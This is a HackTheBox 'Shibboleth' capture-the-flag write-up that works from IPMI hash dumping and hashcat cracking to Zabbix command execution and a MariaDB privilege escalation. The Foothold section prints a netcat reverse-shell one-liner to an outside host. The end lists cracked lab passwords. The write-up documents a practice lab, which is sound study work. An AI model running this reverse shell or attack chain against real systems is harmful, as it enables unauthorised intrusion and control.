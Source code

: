 # HackTheBox-Shibboleth

## NMAP

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

```

## PORT 80 (HTTP)

On the web server we see a html template page

<img src="https://i.imgur.com/LxFp6HZ.png"/>


We can check the source which reveals that it's a theme so no point in enumerating here, from the nmap scan it did show us that it was redirecting to a domain name so let's try to run `wfuzz` to bruteforce for subdomains

<img src="https://i.imgur.com/rCXO6ci.png"/>

Here it gives us there names, and these all are the same

<img src="https://i.imgur.com/1WphEt4.png"/>

If we hover over the `help` link , it will show us that it's using version 5 of `zabbix` , which is a tool for monitoring the network and ,virtual machines and other services running. Searching for exploits was a rabbit hole here as it was reported that zabbix 5.x is vulnerable to blind sqli but there wasn't any exploits publicily available.

I went back to scanning the machine and scanend for `UDP` ports

```bash
nmap -p 1-1000 -sU --min-rate 5000 10.129.231.205 -vv                                                                           
PORT    STATE  SERVICE   REASON                      
45/udp  closed mpm       port-unreach ttl 63                     
179/udp closed bgp       port-unreach ttl 63                     
243/udp closed sur-meas  port-unreach ttl 63
422/udp closed ariel3    port-unreach ttl 63
459/udp closed ampr-rcmd port-unreach ttl 63
623/udp open   asf-rmcp  udp-response ttl 63
892/udp closed unknown   port-unreach ttl 63
```

This showed port 623 which was opened and was running `IPMI` Intelligent Platform Management Interface , which is used for controlling and managing hardware services. There was a metasploit module available that can dump `HMAC-SHA1` hashes, so using the module `use auxiliary/scanner/ipmi/ipmi_dumphashes`

<img src="https://i.imgur.com/uCJ24YR.png"/>

And we can now crack this hash using `hashcat`

<img src="https://i.imgur.com/fRS1yY0.png"/>

<img src="https://i.imgur.com/cTsv8KO.png"/>

<img src="https://i.imgur.com/VHh7xuX.png"/>

<img src="https://i.imgur.com/HKydYHb.png"/>

## Foothold

To get a foolthold , we can run shell commands through Zabbix agent, in order to do this first we'll need to go to `Configuration` and select `Hosts`

<img src="https://i.imgur.com/N46Tsyf.png"/>

Next select the hostname ,which is `shibboleth.htb` , after selecting the hostname , navigate to `items`

<img src="https://i.imgur.com/Ali3PbM.png"/>
 
Click on create `new item`

<img src="https://i.imgur.com/n4W1l1z.png"/>

When adding a new item , in the `key` field to run command we need to input `system.run["shell command"]` also change type of information to `text`

<img src="https://i.imgur.com/zcJbGKP.png"/>

At the bottom , we can see a button `Test` to check our command

<img src="https://i.imgur.com/eVO2Zmt.png"/>

<img src="https://i.imgur.com/FMZfgps.png"/>

So we have command execution here , now we need to get a reverse shell from here

```bash
system.run["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 2222 >/tmp/f",nowait]
```

We are specifying `nowait` here so it does not close the process

<img src="https://i.imgur.com/a0MB63M.png"/>

<img src="https://i.imgur.com/IySoHj3.png"/>

Stabilizing the reverse shell so we may have a tty shell

<img src="https://i.imgur.com/2NUGe3Y.png"/>

## Privilege Escalation (ipmi-svc)

I ran `sudo -l` to see if there was any thing this user can run as a different user or as root but we need a password , I tried the zabbix admin password but it failed

<img src="https://i.imgur.com/JNr2x00.png"/>

We can see another user named `ipmi-svc` , let's try the password that we found for this user

<img src="https://i.imgur.com/vGX3SOD.png"/>

And this worked , we can find the database creds from `/etc/zabbix/zabbix_server.conf`

<img src="https://i.imgur.com/LPIrLf5.png"/>
## Privilege Escalation (root)

After logging in with mysql , it was using `Mariadb` which was using `10.3.25` version, so I searched for if there was any exploit for this version and it returned with a command execution exploit 

<img src="https://i.imgur.com/bMsacsq.png"/>

So first we have to generate  a shared library file which can be used in any program at run time , transfer that on the target machine

<img src="https://i.imgur.com/1p9NQOh.png"/>

Start the netcat listener , and login in with mysql user by executing a command 

<img src="https://i.imgur.com/ddTsWXZ.png"/>

## References

- https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://subscription.packtpub.com/book/cloud-and-networking/9781800202238/2/ch02lvl1sec20/using-zabbix-preprocessing-to-alter-item-values
- https://www.zabbix.com/forum/zabbix-help/21803-system-run-syntax
- https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html
- 
```
Administrator:ilovepumkinpie1
zabbix:bloooarskybluh
```

